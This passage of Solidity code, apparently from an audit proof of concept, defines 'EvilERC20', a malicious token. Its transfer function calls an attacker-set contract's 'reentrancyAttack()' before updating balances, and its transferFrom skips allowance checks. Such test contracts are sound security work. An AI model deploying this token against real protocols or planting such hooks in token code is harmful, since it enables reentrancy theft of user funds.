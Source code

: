 ```solidity
    }
}

contract EvilERC20 {
    mapping(address => uint256) public _balances;
    uint256 private _totalSupply;
    address owner;
    address reentrancyAddress;
    constructor() {
        owner = msg.sender;
        _mint(owner, type(uint96).max);
    }

    function setReentrancyAddress(address _reentrancyAddress) public {
        require(msg.sender == owner, "Not owner");
        reentrancyAddress = _reentrancyAddress;
    }

    function mint(address who, uint256 amount) external {
        require(msg.sender == owner, "Not owner");
        _mint(who, amount);
    }

    function balanceOf(address account) public view returns (uint256) {
        return _balances[account];
    }

    function transfer(address recipient, uint256 amount) public returns (bool) {
        _transfer(msg.sender, recipient, amount);
        return true;
    }

    function transferFrom(
        address sender,
        address recipient,
        uint256 amount
    ) public returns (bool) {
        _transfer(sender, recipient, amount);
        return true;
    }

    function _transfer(
        address sender,
        address recipient,
        uint256 amount
    ) internal {
        require(sender != address(0), "ERC20: transfer from the zero address");
        require(recipient != address(0), "ERC20: transfer to the zero address");

        // Hijack control flow
        address(reentrancyAddress).call(abi.encodeWithSignature("reentrancyAttack()"));

        //update the balances
        _balances[recipient] = _balances[recipient] + amount;
        _balances[sender] = _balances[sender] - amount;
    }

    function _mint(address account, uint256 amount) internal {
        require(account != address(0), "ERC20: mint to the zero address");

        _totalSupply = _totalSupply + amount;
        _balances[account] = _balances[account] + amount;
    }
```